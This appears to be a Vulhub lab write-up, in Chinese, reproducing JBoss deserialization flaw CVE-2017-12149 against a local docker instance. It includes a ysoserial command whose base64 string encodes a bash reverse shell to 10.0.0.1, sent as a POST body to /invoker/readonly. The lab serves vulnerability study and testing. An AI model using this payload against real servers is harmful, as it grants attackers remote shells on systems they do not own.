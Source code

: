 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 5.x/6.x中，HttpInvoker组件中的ReadOnlyAccessFilter过滤器在未进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

参考：

 - https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
 - https://access.redhat.com/security/cve/cve-2017-12149

## 测试环境

执行如下命令启动JBoss AS 6.1.0：

```
docker compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

## 漏洞复现

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![](img/1.png)

所以，我们用常规Java反序列化漏洞测试方法来复现该漏洞。

### 编写反弹shell的命令

我们使用bash来反弹shell，但由于`Runtime.getRuntime().exec()`中不能使用管道符等bash需要的方法，我们需要用进行一次编码。

工具：http://www.jackson-t.ca/runtime-exec-payloads.html

![](img/2.png)

### 序列化数据生成

使用[ysoserial](https://github.com/frohoff/ysoserial)来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### 发送POC

生成好的POC即为poc.ser，将这个文件作为POST Body发送至/invoker/readonly即可：

![](img/3.png)

成功反弹shell：

![](img/4.png)
